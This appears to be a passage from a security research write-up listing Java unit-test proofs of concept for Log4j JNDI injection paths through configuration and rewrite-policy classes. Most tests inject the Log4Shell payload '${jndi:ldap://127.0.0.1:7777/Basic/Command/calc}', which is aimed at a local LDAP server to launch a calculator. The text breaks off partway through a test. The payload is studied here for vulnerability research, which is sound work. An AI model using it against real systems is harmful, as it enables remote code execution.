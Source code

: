 **CompositeConfiguration.reconfigure()**
```
 @Test
    public void reconfigureCompositeConfigurationTest() throws Exception {
        ConfigurationBuilder<BuiltConfiguration> builder = ConfigurationBuilderFactory.newConfigurationBuilder();
        AbstractConfiguration config = builder.addProperty("injectedProperty", "${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}").build();
        CompositeConfiguration compositeConfig = new CompositeConfiguration(Arrays.asList(config));
        compositeConfig.reconfigure();
    }
```

**PatternLayout.build()**

All methods are linked to parent nodes through DefaultConfig<Init>. Since this function only generates DefaultConfig, it does not lead to any form of injection.

```
 public PatternLayout build() {
            if (this.configuration == null) {
                this.configuration = new DefaultConfiguration();
            }

            return new PatternLayout(this.configuration, this.regexReplacement, this.pattern, this.patternSelector, this.charset, this.alwaysWriteExceptions, this.disableAnsi, this.noConsoleNoAnsi, this.header, this.footer);
        }
```

#### Pocs for Rewriter Tree ####

**PropertiesRewritePolicy.rewrite()**

```
@Test
    public void rewritePropertiesRewritePolicyTest() {
        Configuration configuration = new DefaultConfiguration();
        Property[] properties = new Property[]{
                Property.createProperty("injectedProperty", "${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}")
        };

        RewritePolicy policy = PropertiesRewritePolicy.createPolicy(configuration, properties);
        LogEvent logEvent = new MutableLogEvent(new StringBuilder("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}"), null);
        LogEvent rewrittenEvent = policy.rewrite(logEvent);
    }
```

**RewritePolicy.append()**

```
@Test
    public void appendRewritePolicyTest() {
        LoggerContext context = new LoggerContext("TestContext");
        Configuration config = context.getConfiguration();

        Appender consoleAppender = ConsoleAppender.createDefaultAppenderForLayout(PatternLayout.createDefaultLayout(config));
        consoleAppender.start();

        AppenderRef appenderRef = AppenderRef.createAppenderRef("console", null, null);
        AppenderRef[] refs = new AppenderRef[]{appenderRef};

        Property[] properties = new Property[]{
                Property.createProperty("injectedProperty", "${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}")
```